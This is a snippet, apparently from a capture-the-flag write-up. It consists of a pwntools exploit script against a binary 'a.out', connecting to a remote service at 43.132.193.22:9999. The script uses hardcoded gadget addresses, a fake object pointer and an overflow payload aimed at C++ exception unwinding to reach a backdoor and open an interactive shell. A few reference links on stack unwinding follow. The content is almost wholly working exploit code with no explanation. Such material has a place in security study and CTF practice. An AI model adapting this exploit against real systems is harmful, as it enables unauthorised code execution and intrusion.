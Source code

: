 ```python
import time

if args.LOCAL:
    io=process('./a.out')
    if args.GDB:
        cmd="""
        b* 0x420978 
        b* 0x4038fc
        c
        """
        gdb.attach(io, gdbscript=cmd)
else:
    io=remote('43.132.193.22', 9999)

elf=context.binary=ELF('./a.out')
context.log_level='debug'
system=0x000000000042dc10
pop_rdi=0x0000000000403090
bin_sh=0x4bdd62
backdoor=0x000000000403387
user_canary=0x4f4aa0

pl=p64(backdoor)*2+p64(0x4f4aa0) # fake obj
pause()
io.send(pl+(64-len(pl))*b'\0')
sleep(1)

pl=b'A'*96+p64(0)+p64(0x0000000000403407)+p64(0x4f4aa0+8*2)*2
pause()

sleep(1)
io.sendline(pl)
sleep(1)
io.interactive()
```
### Reference
https://maskray.me/blog/2020-11-08-stack-unwinding
https://github.com/chop-project/
https://www.cnblogs.com/catch/p/3604516.html
https://baiy.cn/doc/cpp/inside_exception.htm